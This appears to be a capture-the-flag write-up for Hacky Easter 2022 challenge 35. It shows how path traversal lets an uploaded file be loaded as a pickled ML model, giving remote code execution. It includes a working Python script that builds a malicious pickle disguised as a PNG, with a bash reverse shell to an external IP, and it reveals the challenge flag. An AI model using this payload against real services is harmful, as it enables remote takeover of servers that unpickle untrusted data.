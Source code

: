 = [HE22.35] The CTF Oracle 🔮

image::level8/challenge35.jpg[,300,float="right"]

== Intro

The oracle is using *models* and algorithms to predict how you will
perform in CTFs in the future! Please choose a CTF and the total points you
made in the last three years.

http://46.101.107.117:2206

Note: The service is restarted every hour at x:00.

== Solution

First some intelligence gathered using Postman and the development mode of the
browser:


* the server is Gunicorn, so we are probably dealing with python
* we can upload a profile picture that is then stored in `/tmp/...`
* the oracle itself has two inputs in the POST method: the CTF and the
  scores
* entering more than three scores returns just predicted values for all
  submitted values
* changing the CTF to another value, _e.g._ `HackyEaster`, triggers a
	message about `... cannot load file ./model/HackyEaster`
* injecting wildcards etc. do not seem to have an effect
* we can traverse the directory tree: `../../../tmp/../app/models/HE`
	does get us the proper HE model

Reading up on the way to store ML-models, it became likely that we can store
pickled models that are then loaded.  The plan of attack is thus to create a
pickled payload stored as `rce.png`, store this file as a profile picture,
and load this file as the model.  Then the server will load the model, unpickle
it and execute our payload.

Creating a first remote shell using a simple netcat listener didn't give a
shell, but at least a new error message: `Failed to make prediction`.

This means that the pickle was loaded successfully, but did not continue
running for whatever reason.  Later it became clear that `nc` is not
available on the server.  

After trying many different routes to get something to work (a python shell, a
listener, ...) finally a very simpe reverse shell using `bash` worked
beautifully in connecting via ngrok -- but to do this, I first had to learn
about ngrok.  The final script to create the payload looks like this: 

[source,python]
----
#!/usr/bin/python
#
# Pickle deserialization RCE payload.
# To be invoked with command to execute at it's first parameter.
# Otherwise, the default one will be used.
#

import pickle
import sys
DEFAULT_COMMAND="/bin/bash -c '/bin/sh -i >& /dev/tcp/3.68.56.232/10421 0>&1'"
COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))

with open('rce.png', 'wb') as outF:
    outF.write(pickle.dumps(PickleRce()))
----

`cd` up one directory from where the shell spawns, we find the file `flag.txt`
with the contents `he2022{ef453cc6-46eb-4c86-87df-cf34a6d2e3d8}`

=== Notes and links

Thanks to otaku for a nice challenge and battlemonger for helpful hints.

http://www.onelinerizer.com/ 
a tool to turn every python script into a one-liner

https://ngrok.com/ 
a tunnel to a publicly reachable address for the reverse
shell

https://metahackers.pro/reverse-shells-101/

